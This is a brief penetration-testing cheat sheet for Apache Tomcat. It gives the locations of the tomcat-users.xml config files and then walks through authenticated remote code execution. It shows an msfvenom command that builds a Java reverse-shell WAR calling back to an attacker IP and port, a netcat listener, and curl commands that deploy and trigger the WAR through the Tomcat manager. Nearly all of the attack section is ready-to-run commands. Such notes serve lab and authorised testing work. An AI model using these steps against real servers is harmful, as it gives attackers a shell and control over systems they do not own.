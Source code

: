 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["tomcat", "apache", "web server", "war", "java", "rce"]
---
```


---
### Config Location

```bash
/usr/share/tomcat9/etc/tomcat-users.xml
```

```bash
/etc/tomcat9/tomcat-users.xml
```

### RCE (Authenicated)

#### 1. Create a WAR file

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -f war -o revshell.war
```

#### 2. Start a listener

```bash
rlwrap nc -lvnp 1337
```

#### 3a. Via Manager GUI

```bash
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

#### 3b. Via Manager Script

```bash
curl -u '<USERNAME>:<PASSWORD>' http://example.com:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```bash
curl -s http://example.com:8080/revshell
```

<br>
